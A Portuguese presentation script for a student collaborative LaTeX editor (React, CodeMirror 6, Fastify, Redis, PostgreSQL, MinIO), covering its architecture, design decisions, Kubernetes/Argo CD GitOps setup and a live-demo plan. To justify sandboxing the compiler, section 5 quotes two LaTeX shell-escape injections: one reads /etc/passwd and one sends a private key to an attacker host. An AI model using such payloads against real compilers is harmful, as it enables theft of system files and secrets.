





# 🎤 Roteiro de Apresentação Técnica: Arquitetura do Editor Colaborativo (Lab 04) & Kubernetes GitOps

> **Documento Guia para Apresentação Técnica & Defesa de Arquitetura**  
> **Tema:** Arquitetura de Sistemas em Tempo Real, Compilação Segura de LaTeX e Orquestração Cloud-Native com Kubernetes e GitOps.  
> **Repositório do Projeto:** [github.com/gilsonrusso/estudo-comunicao-em-tempo-real](https://github.com/gilsonrusso/estudo-comunicao-em-tempo-real)  
> **Público-Alvo:** Engenheiros de Software, Arquitetos de Soluções, Especialistas em DevOps e Liderança Técnica.

---

## 📑 Sumário Executivo

1. [Pitch da Apresentação & O Problema de Negócio](#1-pitch-da-apresentação--o-problema-de-negócio)
2. [Visão Geral da Arquitetura C4 (Topologia Completa)](#2-visão-geral-da-arquitetura-c4-topologia-completa)
3. [Deep Dive: Frontend SPA (React 18 + CodeMirror 6) & O Porquê das Escolhas](#3-deep-dive-frontend-spa-react-18--codemirror-6--o-porquê-das-escolhas)
4. [Deep Dive: Backend Core (Fastify + WebSockets + Zod) & O Porquê das Escolhas](#4-deep-dive-backend-core-fastify--websockets--zod--o-porquê-das-escolhas)
5. [Deep Dive: Motor Compilador (TeX Live Sandbox) & O Porquê das Escolhas](#5-deep-dive-motor-compilador-tex-live-sandbox--o-porquê-das-escolhas)
6. [Deep Dive: Armazenamento Híbrido (PostgreSQL, Redis e MinIO S3)](#6-deep-dive-armazenamento-híbrido-postgresql-redis-e-minio-s3)
7. [Deep Dive: Kubernetes, Kind & GitOps com Argo CD & Workflows](#7-deep-dive-kubernetes-kind--gitops-com-argo-cd--workflows)
8. [Fluxos de Dados Ponta a Ponta (Diagramas de Sequência)](#8-fluxos-de-dados-ponta-a-ponta-diagramas-de-sequência)
9. [Matriz Definitiva de Decisões de Arquitetura (ADRs & Trade-Offs)](#9-matriz-definitiva-de-decisões-de-arquitetura-adrs--trade-offs)
10. [Roteiro Sugerido para Apresentação Slide a Slide (Timing & Falas)](#10-roteiro-sugerido-para-apresentação-slide-a-slide-timing--falas)
11. [Roteiro Prático de Live Demo](#11-roteiro-prático-de-live-demo)

---

## 1. Pitch da Apresentação & O Problema de Negócio

### O Desafio
Construir uma ferramenta de edição colaborativa em tempo real com compilação pesada (como o **Overleaf**) é um dos desafios mais complexos da engenharia de software moderna, pois combina simultaneamente:
1. **Comunicação de Altíssima Frequência:** Centenas de caracteres digitados por segundo com latência inferior a **10ms**, exigindo renderização de múltiplos cursores e realce de autoria.
2. **Carga Computacional Desproporcional:** A compilação de código LaTeX envolve interpretadores pesados (`pdflatex`, `biber`, `latexmk`), que consomem alta CPU e memória RAM e geram arquivos binários (PDF).
3. **Riscos de Segurança Críticos:** O código LaTeX é uma linguagem Turing-completa com capacidade potencial de executar comandos de sistema se não estiver devidamente contida.
4. **Volume de I/O em Banco de Dados:** Salvar cada tecla digitada diretamente no disco causaria degradação imediata de I/O e contenção de travas (*lock contention*).

### A Nossa Solução
Projetamos e construímos uma **arquitetura distribuída resiliente, escalável e desacoplada**, baseada em:
- **Frontend Moderno:** React 18, CodeMirror 6 modular, MUI DataGrid com URL State Sync e layout elástico customizado.
- **Backend Reativo:** Fastify v5, WebSockets nativos, Zod type-provider e estratégia de persistência em duas camadas (RAM/Redis $\to$ Debounce $\to$ PostgreSQL).
- **Compilador Isolado:** Worker efêmero em contêiner TeX Live com flags de segurança máxima (`-no-shell-escape`), proteção contra *Path Traversal* e timeout estrito.
- **Storage de Objetos:** MinIO compatível com AWS S3 para descarregar arquivos binários, imagens e pacotes `.cls`.
- **Orquestração Cloud-Native:** Cluster Kubernetes (Kind), entrega contínua declarativa com **Argo CD (GitOps)** e compilações assíncronas via **Argo Workflows**.

---

## 2. Visão Geral da Arquitetura C4 (Topologia Completa)



---

## 3. Deep Dive: Frontend SPA (React 18 + CodeMirror 6) & O Porquê das Escolhas

### 3.1. Estrutura Modular Feature-Sliced
Adotamos o padrão **Feature-Sliced Design (FSD)**:
- `features/articles/`: Listagem em tabela corporativa, modal de criação e catálogo de templates (IEEE, ACM, SBC).
- `features/editor/`: Toda a IDE de desenvolvimento (Navbar, ActivityRail, FileTree, TabBar, CodeMirror, PdfPreview, ReviewSidebar e SettingsModal).
- `components/common/`: Componentes atômicos e reutilizáveis (`GenericDataGrid`, `ResizableSplitLayout`, `PageContainer`).

### 3.2. O Porquê das Escolhas no Frontend

| Tecnologia / Componente | Por que escolhemos? | O que evitamos / Trade-Off |
| :--- | :--- | :--- |
| **CodeMirror 6** | **Modularidade e Performance Extrema:** O CodeMirror 6 foi reescrito do zero com foco em imutabilidade funcional (`EditorState`) e virtualização DOM linha a linha. Permite manipular extensões como *StateFields*, decorações do tipo *Widget* para cursores remotos e *Marks* para autoria sem refazer o layout da página. | **Monaco Editor:** O editor do VS Code é excelente, porém tem um bundle excessivamente pesado (+30MB), consome mais memória e foi projetado para desktop, dificultando customizações profundas de colaboração peer-to-peer.<br>**Textarea simples:** Não possui numeração de linha, destaque léxico de LaTeX, nem decorações nativas. |
| **CodeMirror Compartments** | Permite alterar **em tempo de execução** o tema visual (Dark, Light, Dracula, Monokai) e a quebra de linhas (*line wrapping*) sem desmontar o editor, preservando cursores e histórico de undo/redo. | Sem Compartments, qualquer troca de configuração exigiria recriar a instância do editor, perdendo o foco e o estado do usuário. |
| **ResizableSplitLayout Próprio** | Criamos um divisor redimensionável sob medida com listener global de mouse (`mousemove`/`mouseup`). Inserimos um **overlay transparente anti-captura** durante o arraste para evitar que o `<iframe>` do PDF absorva os eventos do mouse e congele a tela. | Bibliotecas de terceiros trazem estilos conflitantes e não tratam adequadamente o bloqueio de ponteiro em elementos `iframe`. |
| **MUI DataGrid com GenericDataGrid** | Tabela corporativa com paginação, ordenação remota/local, barra de busca com debounce (500ms) e **sincronização transparente com a URL** (`?search=...&page=...`). | Tabelas HTML manuais sem paginação virtualizada travam o navegador quando o número de documentos cresce. |
| **TanStack React Query** | Cache inteligente de dados, deduplicação de requisições REST e invalidação atômica via `queryKeys.ts`. | Redux / Context API manual com boilerplate excessivo e gerenciamento manual de flags de loading/error. |

---

## 4. Deep Dive: Backend Core (Fastify + WebSockets + Zod) & O Porquê das Escolhas

### 4.1. Arquitetura do Backend
O backend foi construído em **Fastify v5** com TypeScript e injeção modular:
- Módulo `documents`: CRUD, controle de versões (snapshots), gerenciamento de arquivos de projeto e servidor WebSocket.
- Módulo `templates`: Processamento de templates oficiais e upload de pacotes `.zip`.
- Módulo `languagetool`: Proxy inteligente para análise sintática e gramatical.

### 4.2. O Porquê das Escolhas no Backend

| Decisão | Motivação Técnica | Alternativas Descartadas & Motivos |
| :--- | :--- | :--- |
| **Fastify v5** em vez de Express | **Throughput e I/O Assíncrono:** O Fastify é até 3x mais rápido que o Express em benchmarks de JSON I/O. Possui ciclo de vida estruturado de hooks (`onRequest`, `preHandler`), encapsulamento por plugins e graceful shutdown nativo. | **Express:** Legado, lento, sem suporte nativo a promises em rotas antigas e sem validação integrada de esquemas. |
| **Zod Type-Provider** | **Tipagem Estrita de Ponta a Ponta:** Um único esquema Zod valida o payload em tempo de execução e infere automaticamente os tipos TypeScript de `request.body`, `request.query` e `request.params`. | Validadores manuais (`Joi` ou validações `if` soltas) que duplicam interfaces TypeScript e geram inconsistências. |
| **Estratégia de Persistência em Duas Velocidades** | **Eliminação de Gargalo de Disco:** Em um ambiente colaborativo, salvar cada caractere no banco de dados gera milhares de transações por minuto, explodindo o disco (IOPS) e causando lentidão. | Salvar síncrono a cada tecla: Destruiria o banco de dados em questão de segundos com mais de 5 usuários simultâneos. |
| **Parser Heurístico de ZIP (`latex-zip-parser.ts`)** | Suporta importação instantânea de modelos de universidades e conferências (IEEE, ACM, SBC). Detecta o arquivo com `\documentclass`, extrai o título e envia arquivos binários ao MinIO de forma automatizada. | Exigir que o usuário crie arquivo por arquivo manualmente na interface. |

---

## 5. Deep Dive: Motor Compilador (TeX Live Sandbox) & O Porquê das Escolhas

### 5.1. Isolamento em Microsserviço Dedicado
O compilador LaTeX roda em um **contêiner Linux totalmente isolado**, empacotado com a suíte oficial do **TeX Live** (`latexmk`, `pdflatex`, `xelatex`, `bibtex`, `biber`).

```
compiler/
├── Dockerfile          # Imagem oficial debian/ubuntu com texlive-full
└── src/
    └── server.ts       # Fastify worker expondo POST /compile e GET /health
```

### 5.2. O Porquê das Escolhas no Compilador



1. **Por que NÃO compilar dentro do Backend Principal?**
   - O processo do `pdflatex` é síncrono em C/C++ e pode consumir 100% da CPU. Se rodasse na mesma máquina do backend Fastify, causaria *Event Loop Starvation*, travando todas as conexões WebSocket e desconectando todos os usuários.
   - **Escalabilidade Elástica Independente:** No Kubernetes, o compilador possui pods dedicados com limites de CPU/Memória e pode escalar de 1 a 20 réplicas conforme a demanda, sem tocar no backend de WebSocket.
2. **Por que a flag `-no-shell-escape` é mandatória?**
   - Sem essa flag, um usuário malicioso poderia escrever no LaTeX: `\write18{cat /etc/passwd}` ou `\write18{curl attacker.com -d @private.key}`. O `-no-shell-escape` bloqueia qualquer execução de binários do sistema operacional pelo compilador.
3. **Por que Sandbox descartável por compilação (`/tmp/tex-sandbox-<uuid>`)?**
   - Garante concorrência segura: compilações de usuários simultâneos não sobrescrevem os arquivos temporários uns dos outros. No bloco `finally`, todo o diretório é apagado com `fs.rm()`.

---

## 6. Deep Dive: Armazenamento Híbrido (PostgreSQL, Redis e MinIO S3)

Adotamos a estratégia do **modelo de persistência poliglota**, onde cada tipo de dado é armazenado no mecanismo mais eficiente para sua natureza:

| Tecnologia | Função no Sistema | O Porquê da Escolha |
| :--- | :--- | :--- |
| **PostgreSQL 16** | **Persistência Durável & Relacional**<br>- Artigos (`documents`)<br>- Checkpoints (`document_snapshots`)<br>- Histórico imutável (`document_operations`)<br>- Metadados de arquivos (`project_files`)<br>- Modelos (`templates`) | ACID garantido, integridade referencial com chaves estrangeiras, consultas eficientes com índices e suporte nativo a colunas `JSONB`. |
| **Redis 7** | **Buffer Efêmero & Backplane Pub/Sub**<br>- Fila rápida de deltas não consolidados (`RPUSH`)<br>- Broadcast de mensagens entre instâncias (`PUBLISH` / `SUBSCRIBE`)<br>- Gerenciamento de presença de usuários online | Velocidade em memória sub-milissegundo, permitindo que múltiplos pods de backend transmitam mensagens entre si sem acoplar conexões. |
| **MinIO S3** | **Object Storage para Ativos Binários**<br>- Imagens de artigos (`.png`, `.jpg`)<br>- Classes LaTeX (`.cls`, `.sty`)<br>- Bibliografias (`.bib`)<br>- PDFs finais gerados | **Não incha o banco de dados relacional:** Gravar binários em BLOB no Postgres degrada o buffer pool e deixa os backups lentos. O MinIO usa o protocolo S3 padrão da AWS e suporta *Presigned URLs* de alta performance. |

---

## 7. Deep Dive: Kubernetes, Kind & GitOps com Argo CD & Workflows

### 7.1. A Topologia em Contêineres no Kubernetes
Todos os componentes foram configurados declarativamente via manifestos **Kustomize** em `k8s/base/`:

```
k8s/
├── base/
│   ├── kustomization.yaml   # Agregador de recursos
│   ├── backend.yaml         # Deployment do Fastify (2 réplicas + Service)
│   ├── frontend.yaml        # Deployment do Nginx SPA (Service ClusterIP)
│   ├── compiler.yaml        # Deployment do TeX Live (com limites de CPU/RAM)
│   ├── languagetool.yaml    # Pod dedicado de NLP
│   ├── postgres.yaml        # StatefulSet/Deployment com PVC de 5Gi
│   ├── redis.yaml           # Deployment com persistência AOF
│   ├── minio.yaml           # Deployment S3 com PVC de 10Gi
│   └── ingress.yaml         # Ingress unificado para HTTP e WebSocket
├── argocd/
│   └── application.yaml     # Argo CD Custom Resource (GitOps Pipeline)
└── workflows/
    └── latex-compile-workflow.yaml # Argo Workflow para compilações pesadas
```

### 7.2. O Porquê das Escolhas em DevOps & Kubernetes



1. **Por que GitOps com Argo CD?**
   - **Zero intervenção manual:** Nenhum engenheiro precisa rodar `kubectl apply` ou ter credenciais privilegiadas de cluster. O estado desejado da infraestrutura vive 100% versionado no Git.
   - **Detecção de Desvio (*Drift Detection*):** Se alguém alterar manualmente um pod ou service no cluster, o Argo CD detecta e restaura o estado definido no repositório.
2. **Por que Kind (Kubernetes in Docker)?**
   - Permite que qualquer desenvolvedor ou avaliador suba a infraestrutura completa localmente em segundos, garantindo paridade total entre desenvolvimento e produção.
3. **Por que Argo Workflows para Compilação em Lote?**
   - Para compilações longas (como teses de doutorado com centenas de páginas e gráficos TikZ), o backend pode delegar o build para um pod descartável gerenciado pelo Argo Workflows, liberando o worker síncrono.

---

## 8. Fluxos de Dados Ponta a Ponta (Diagramas de Sequência)

### Fluxo A: Edição Colaborativa e Persistência em Duas Velocidades



---

### Fluxo B: Disparo de Compilação LaTeX e Geração de PDF



---

## 9. Matriz Definitiva de Decisões de Arquitetura (ADRs & Trade-Offs)

| ID | Área | Decisão Tomada | Alternativa Rejeitada | Justificativa do Trade-Off |
| :---: | :--- | :--- | :--- | :--- |
| **ADR-01** | **Editor** | CodeMirror 6 | Monaco Editor / Quill / Textarea | O CodeMirror 6 possui arquitetura funcional modular, baixo peso de bundle e sistema nativo de decorações ideal para renderizar cursores remotos a 60 FPS. |
| **ADR-02** | **Concorrência** | Sequenciador Centralizado de Deltas + Broadcast | CRDT descentralizado pesado (Yjs completo sobre WebRTC) | Para edição de código de artigos científicos, a arquitetura com sequenciador centralizado simplifica a ordenação canônica de versões no banco e reduz o overhead de rede. |
| **ADR-03** | **Persistência** | Buffer RAM/Redis + Debounce de 3s no PostgreSQL | Gravação síncrona a cada digitação | Evita saturação de I/O em disco, prevenindo travamento do banco em cenários de digitação concorrente intensa. |
| **ADR-04** | **Compilador** | Microsserviço TeX Live dedicado isolado | Compilação via `child_process` dentro do backend | Impede travamento do Event Loop do Node.js, permite escalar os recursos de compilação de forma elástica e isola o sistema contra ataques de segurança. |
| **ADR-05** | **Binários** | Object Storage MinIO (S3 API) | Colunas BLOB no PostgreSQL / Diretório de arquivos local | Preserva o desempenho do PostgreSQL, desacopla o storage e permite migração transparente para AWS S3 ou Cloudflare R2 em produção. |
| **ADR-06** | **Gramática** | LanguageTool Container | Integração com APIs externas (ex: Grammarly) | Garante privacidade total de pesquisas e dados sensíveis dos artigos acadêmicos sem custos de API por caractere. |
| **ADR-07** | **DevOps** | GitOps com Argo CD sobre Kubernetes | Deploys manuais com scripts bash ou SSH | O repositório Git é a única fonte da verdade, garantindo auditoria, reversão (*rollback*) em 1 clique e reconciliação contínua de desvios. |

---

## 10. Roteiro Sugerido para Apresentação Slide a Slide (Timing & Falas)

Este roteiro foi planejado para uma apresentação de **15 a 20 minutos** de alto impacto:

```
+-------------------------------------------------------------------------------+
|  BLOCO 1: INTRODUÇÃO & PROBLEMA DE ENGENHARIA (3 minutos)                     |
|  - Slide 1: Apresentação pessoal e título do projeto                          |
|  - Slide 2: O desafio de construir um Overleaf (Alta frequência vs CPU pesada)|
|                                                                               |
|  BLOCO 2: VISÃO PANORÂMICA & TOPOLOGIA DE SISTEMAS (4 minutos)                |
|  - Slide 3: Diagrama da Arquitetura Geral (Frontend, Backend, Compilador)     |
|  - Slide 4: O Modelo de Persistência Híbrida (RAM -> Redis -> Postgres)      |
|                                                                               |
|  BLOCO 3: DEEP DIVE TÉCNICO (5 minutos)                                       |
|  - Slide 5: Frontend: CodeMirror 6, Cursores Remotos e ResizableSplitLayout   |
|  - Slide 6: Compilador: TeX Live em Sandbox Efêmero e Segurança de Execução   |
|  - Slide 7: MinIO S3 & LanguageTool: Desacoplamento e IA Gramatical          |
|                                                                               |
|  BLOCO 4: KUBERNETES & GITOPS COM ARGO CD (3 minutos)                         |
|  - Slide 8: A Topologia de Pods, Ingress e Kustomize                          |
|  - Slide 9: O Pipeline GitOps declarativo: Do commit ao cluster Kind          |
|                                                                               |
|  BLOCO 5: LIVE DEMO & CONCLUSÃO (5 minutos)                                   |
|  - Demonstração prática: Alice e Bob digitando em tempo real                   |
|  - Compilação ao vivo do PDF com TeX Live                                     |
|  - Q&A e encerramento                                                         |
+-------------------------------------------------------------------------------+
```

### Script de Fala Recomendado para os Pontos-Chave:

> **Ao falar sobre a Persistência (Slide 4):**  
> *"Um dos erros mais comuns em projetos colaborativos é tentar gravar cada caractere no banco de dados relacional. Em nossa arquitetura, dividimos o problema em duas velocidades: a velocidade da percepção humana, que trafega em milissegundos via WebSockets e Redis Pub/Sub, e a velocidade da durabilidade, onde um mecanismo de debounce inteligente consolida o texto em snapshots no PostgreSQL somente quando os usuários fazem uma pausa na digitação."*

> **Ao falar sobre o Compilador (Slide 6):**  
> *"LaTeX não é apenas texto: é uma linguagem de programação completa. Executar LaTeX sem isolamento é abrir a porta para execução de comandos maliciosos. Por isso, isolamos o TeX Live em um microsserviço dedicado, travamos a execução com a flag `-no-shell-escape`, sanitizamos caminhos contra Path Traversal e implementamos um timeout estrito de 25 segundos dentro de um sandbox descartável."*

> **Ao falar sobre Kubernetes e GitOps (Slide 9):**  
> *"Nenhum comando imperativo de deploy é executado em produção. Utilizamos GitOps com Argo CD: o nosso repositório no GitHub é a única fonte da verdade. Qualquer alteração nos manifestos é sincronizada automaticamente com o cluster Kubernetes, garantindo rastreabilidade, resiliência e auto-recuperação de pods."*

---

## 11. Roteiro Prático de Live Demo

Para conduzir uma demonstração prática sem falhas durante a apresentação:

### Passo 1: Preparação do Ambiente
Execute previamente o comando do Docker Compose para garantir que todos os 7 contêineres estejam saudáveis:
```bash
cd labs/04-collaborative-editor
docker compose up -d
```
Abra o navegador em: [http://localhost:5173](http://localhost:5173).

### Passo 2: Mostrar o Dashboard Corporativo
- Mostre a tabela com **MUI DataGrid**: destaque a ordenação por título/autor e a contagem de arquivos anexos.
- Digite algo na barra de pesquisa: demonstre a busca com **debounce de 500ms** e aponte para a URL sincronizada (`?search=...`).
- Mostre o botão **"Novo Artigo"** com os templates prontos (IEEE, ACM, SBC).

### Passo 3: Colaboração em Tempo Real (Alice e Bob)
- Abra duas janelas do navegador lado a lado com o mesmo artigo.
- Na Janela 1, altere o nome no topo para **"Alice"** (cor verde/azul).
- Na Janela 2, altere o nome no topo para **"Bob"** (cor laranja/roxa).
- Aponte para a barra de colaboradores no topo: ambos aparecem online instantaneamente.
- Digite um parágrafo na janela de Alice:
  - Mostre o cursor de Alice se movendo na janela de Bob em tempo real.
  - Aponte para a barra de status: `🟡 Em memória RAM`.
  - Pare de digitar por 3 segundos: aponte para o status mudando para `🟢 Sincronizado no banco` (o debounce gerou o snapshot!).

### Passo 4: Redimensionamento e Edição de Alta Precisão
- Arraste a barra central do **ResizableSplitLayout**: mostre a fluidez do redimensionamento sem travamento no PDF.
- Alterne o tema do editor nas configurações (Dark $\to$ Dracula $\to$ Light): mostre que o texto e os cursores continuam intactos graças aos **Compartments do CodeMirror 6**.

### Passo 5: Verificação Gramatical com LanguageTool
- Abra a aba de **Revisão** na barra lateral esquerda (`ActivityRail`).
- Digite uma palavra propositalmente com erro no texto (ex: `conpreensão`).
- Mostre a detecção automática e o card de sugestão com o botão de correção em 1 clique aplicando a mudança diretamente no CodeMirror.

### Passo 6: Compilação do PDF com TeX Live
- Pressione o atalho `Ctrl + Enter` (ou clique em **Recompilar**).
- Mostre o status de compilação no topo e a renderização do PDF vetorial no painel direito.
- Expanda o painel inferior de logs do compilador para demonstrar a saída real do `latexmk` e a captura de páginas geradas.

### Passo 7: Mostrar a Gestão GitOps no Kubernetes
- Mostre os manifestos declarativos em `k8s/base/` e a aplicação do Argo CD em `k8s/argocd/application.yaml`.
- Explique como o repositório público no GitHub [gilsonrusso/estudo-comunicao-em-tempo-real](https://github.com/gilsonrusso/estudo-comunicao-em-tempo-real) pilota as alterações de infraestrutura de forma auditável e automática.
